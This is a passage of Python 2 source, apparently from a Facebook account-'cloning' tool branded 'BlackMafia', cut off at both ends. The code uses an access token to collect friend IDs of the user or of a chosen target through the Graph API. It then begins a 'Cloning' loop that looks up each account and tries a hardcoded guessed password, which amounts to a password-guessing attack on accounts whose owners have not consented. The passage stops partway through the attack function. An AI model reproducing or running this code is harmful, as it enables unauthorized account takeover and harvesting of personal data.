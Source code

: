 	print "\033[1;96m--\033[1;91m> \033[1;91m0.\033[1;94mBack"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;97mChoose an Option>>> \033[1;97m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "\033[1;95m♡──────────•◈•──────────♡\033[1;96mBlackMafia\033[1;95m♡──────────•◈•──────────♡"
		jalan('\033[1;93mGetting IDs \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;96m[♡] \033[1;92mEnter ID\033[1;93m: \033[1;97m")
		print "\033[1;95m♡──────────•◈•──────────♡\033[1;96mBlackMafia\033[1;95m♡──────────•◈•──────────╯♡"
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;93mName\033[1;93m:\033[1;97m "+op["name"]
		except KeyError:
			print"\x1b[1;92mID Not Found!"
			raw_input("\n\033[1;96m[\033[1;94mBack\033[1;96m]")
			super()
		print"\033[1;93mGetting IDs\033[1;93m..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	
	print "\033[1;91mTotal IDs\033[1;93m: \033[1;94m"+str(len(id))
	jalan('\033[1;92mPlease Wait\033[1;93m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;91mCloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;94m«-----\x1b[1;93m♡To Stop Process Press CTRL+Z♡\033[1;94m----»"
	print "\033[1;95m♡──────────•◈•──────────♡\033[1;96mBlackMafia\033[1;95m♡──────────•◈•──────────♡"
	jalan(' \033[1;93m ........Cloning Start plzzz Wait.......... ')
	print "\033[1;95m♡──────────•◈•──────────♡\033[1;96mBlackMafia\033[1;95m♡──────────•◈•──────────♡"
	
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:love_hacker
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = ('786786')